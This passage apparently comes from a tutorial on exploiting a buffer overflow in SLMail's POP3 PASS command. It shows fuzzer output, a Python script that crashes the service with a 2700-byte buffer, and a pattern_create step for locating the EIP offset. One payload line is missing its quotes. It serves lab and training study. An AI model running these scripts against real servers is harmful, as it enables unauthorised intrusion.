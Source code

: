 In this case I used for SLMail application but you can change it depend on your application.


## Replicate the Crash

Let's says our output from fuzzing script:

```
root@kali:~ # ./pop3-pass-fuzzer.py
Fuzzing PASS with 1 bytes
...
Fuzzing PASS with 2700 bytes
Fuzzing PASS with 2900 bytes
```

That's mean when buffer reaches approximately 2700 bytes in length application crash.

So our exploit to replicate crash for our will be as following:

```
#!/usr/bin/python
import socket
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

payload = A * 2700

print "\nSending evil buffer..."
s.connect(('127.0.0.1',110))
s.recv(1024)
s.send('USER username' + '\r\n')
s.recv(1024)
s.send('PASS ' + payload + '\r\n')
print "\nDone!."
```

## Controlling EIP

At this stage we overwritten the the Extended Instruction Pointer (EIP) register with our input buffer of A’s (\x41).
Now we need to swap our A's with a unique string of 2700 bytes using the pattren_create.rb tool in Kali:

```
root@kali:~# /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 2700
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5...
```

Copy the unique string to our exploit instend of the A's input as following:

```
#!/usr/bin/python
import socket
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

payload = "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5....."

print "\nSending evil buffer..."
s.connect(('127.0.0.1',110))
s.recv(1024)
s.send('USER username' + '\r\n')
s.recv(1024)
s.send('PASS ' + payload + '\r\n')
print "\nDone!."
```
